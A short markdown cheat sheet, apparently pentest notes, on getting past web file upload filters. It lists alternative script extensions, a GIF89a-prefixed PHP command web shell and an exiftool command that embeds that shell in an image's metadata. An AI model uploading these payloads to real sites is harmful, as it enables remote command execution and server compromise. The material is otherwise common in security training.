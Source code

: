 # Bypassing File Upload Filtering

## Rename it

* rename the shell and upload it as shell.php.jpg
* it can pass the filter and the file is executed as php

### PHP

* phtml
* .php
* .php3
* .php4
* .php5
* .inc

### asp

* asp
* .aspx

### Perl

* .pl
* .pm
* .cgi
* .lib

### jsp

* .jsp
* .jspx
* .jsw
* .jsv
* .jspf

### Coldfusion

* .cfm
* .cfml
* .cfc
* .dbm

## GIF89a;

* If the content is checked, add the text "GIF89a;" before you shell code

```bash
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In Image

* exiftool is a great tool to view and manipulate exif-data

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

### Then Rename the File

```bash
mv lo.jpg lo.php.jpg
```

## References and More Things to Read

* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)
* [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)
* [https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [http://www.net-informations.com/faq/asp/validation.htm](http://www.net-informations.com/faq/asp/validation.htm)
* [https://owasp.org/www-community/vulnerabilities/Unrestricted\_File\_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
* [https://www.sitepoint.com/mime-types-complete-list/](https://www.sitepoint.com/mime-types-complete-list/)
* [https://www.w3schools.com/php/php\_file\_upload.asp](https://www.w3schools.com/php/php_file_upload.asp)

